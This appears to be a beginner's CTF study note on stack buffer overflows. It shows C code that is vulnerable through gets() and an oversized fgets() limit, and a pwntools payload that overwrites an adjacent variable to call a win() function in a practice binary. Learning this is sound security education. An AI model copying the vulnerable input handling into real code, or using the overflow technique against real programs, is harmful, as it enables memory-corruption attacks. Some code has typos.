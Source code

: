 # Stack Overflow
## Identification
We can know there is buffer or stack overflow vulnerabilities when a input function without limit or the limit is exceed the buffer capacity. 
Example:
```
   char buff[50]
   gets(buff)     // gets function will take input without limit until reach null terminator
```

or with limit with `fgets()`
```
    char buff[50]
    fgets(buff, 100, stdin) // fgets take input 100 char but the buffer capacity only 50 char
```

## Exploitation and Vulnerabilities
### Variables Overwrites (idk the real name)
This one the most simple one. If you can see there is two variables next each other and one of them is the buffer and the other will compared later. 
The example of the source code are like this
    ```
        int cmp;
        char buff[20];
        gets(buff);
        if(cmp == 0xCAFEF00D)
        {
            win();
        }
    ```
You can see on that code. We need to change the cmp value to `0xCAFEF00D` so that we can call win function. We can send it using python code with `pwntools` module or we can inject it with pipe directly.
We know the buffer capacity is 20, then we need fill the buffer first then input desired value for the `cmp`.
so the payload will go like this
    `b'AAAAAAAAAAAAAAAAAAAA\x0D\xF0\xFE\xCA'`
the reason for the payload is reversed because the memory stores value with little-endian encoding and the reason for we store it `\x0D` because we input it as char but there is no readable char representation for it so we use byte string to input char based on its hex value.
Payload
    ```
    p = process('./var')

    payload = b'A' * 20   # Padding
    payload += b'\x0D\xF0\xFE\xCA' # Desired value
    # OR We can use
    payload += p64(0xCAFEF00D) # or p32 for x86 architecture

    p.sendline(payload)
    p.interactve()
    ```
`p64` or `p32` function is used for convert integer to 8 bytes or 4 bytes little-endian encoding or pack the integer based on system architecture

### Ret2Win

